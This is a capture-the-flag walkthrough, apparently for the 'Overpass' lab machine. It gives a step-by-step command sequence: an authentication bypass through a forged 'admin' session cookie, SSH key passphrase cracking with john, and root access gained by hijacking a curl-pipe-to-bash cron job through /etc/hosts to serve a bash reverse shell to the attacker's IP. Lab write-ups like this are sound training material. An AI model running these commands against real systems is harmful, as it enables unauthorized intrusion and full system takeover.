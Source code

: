 # Overpass

- Hack the machine and get the flag in user.txt

	- `nmap -sV -p- <TARGET_IP>`
	- `dirbuster dir -target <TARGET_IP>`, 
	- There is a `/admin/` page and a `cookie.js` file
	- Inspect a bit the code, in particular `cookie.js` and `login.js`.
	- Create a cookie called `sessionToken` with value `admin`.
	- Refresh the `/admin/` page.
	- Copy the RSA private key into a file called `id_rsa`.
	- Move this file into `~/.ssh`.
	- `chmod 700 ~/.ssh/id_rsa`
	- `ssh james@<TARGET_IP>`
	- Noo. We need the passphrase.
	- `/usr/share/john/ssh2john.py ~/.ssh/id_rsa > key.txt`
	- `john key.txt --wordlist=/usr/share/wordlists/rockyou.txt`
	- `*******`
	- Try with ssh and insert password.
	- `cat user.txt`
	- `thm{********************************}`

- Escalate your privileges and get the flag in root.txt

	- `cat todo.txt`. Mhh...
	- `cat .overpass`
	- Copy that code.
	- Insert into CyberChef with recipe `ROT47`.
	- `[{"name":"******","pass":"********************"}]`
	- But these are just the credentials of james...
	- `cat /etc/crontab`
	~~~
	# Update builds from latest code
	* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash`
	~~~
	- Mhhh...
	- Edit `/etc/hosts` file inserting `<YOUR_IP>	overpass.thm` and deleting the previous one.
	- On your machine create `/downloads/src/buidscript.sh` and write into it `bash -i >& /dev/tcp/<YOUR_IP>/1234 0>&1;`
	- On your machine `python3 -m http.server 80`
	- On your machine `nc -lnvp 1234`
	- After a while that cronjob will be executed and you get a reverse root shell.
	- `cat root.txt`
	- `thm{********************************}`



